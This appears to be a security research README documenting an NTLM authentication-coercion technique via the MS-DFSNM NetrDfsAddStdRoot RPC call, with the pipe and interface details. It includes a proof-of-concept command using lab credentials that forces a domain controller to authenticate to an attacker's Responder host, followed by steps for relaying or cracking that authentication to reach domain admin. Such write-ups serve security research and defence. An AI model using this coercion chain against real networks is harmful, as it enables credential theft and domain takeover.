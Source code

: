 # MS-DFSNM - Remote call to NetrDfsAddStdRoot (opnum 12)

## Summary

+ **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

+ **Function name**: [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d)

+ **Function operation number**: `12`

+ **RPC Interfaces**:
   + Interface 1:
     - uuid=`4fc742e0-4a10-11cf-8273-00aa004ae673`
     - version=`3.0`
     - Accessible through:
       + SMB Named pipe: `\PIPE\netdfs`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\netdfs` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\netdfs`. This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsAddStdRoot("192.168.2.51\x00", "share\x00", "comment\x00", 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
NET_API_STATUS NetrDfsAddStdRoot(
    [in, string] WCHAR* ServerName,
    [in, string] WCHAR* RootShare,
    [in, string] WCHAR* Comment,
    [in] DWORD ApiFlags
);
```


+ **ServerName**: The pointer to a null-terminated Unicode string. This is the host name of the new DFS root target.


+ **RootShare**: The pointer to a null-terminated Unicode string. This is the new DFS root target share name as well as the DFS namespace name. The share MUST already exist.


+ **Comment**: The pointer to a null-terminated Unicode string that contains a comment associated with the DFS namespace. Used for informational purposes, this string has no protocol-specified restrictions on length or content. The comment is meant for human consumption and does not affect server functionality. This parameter MAY be a NULL pointer.


+ **ApiFlags**: This parameter is reserved for future use and is ignored by the server.


## References

+ Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

+ Documentation of function `NetrDfsAddStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d
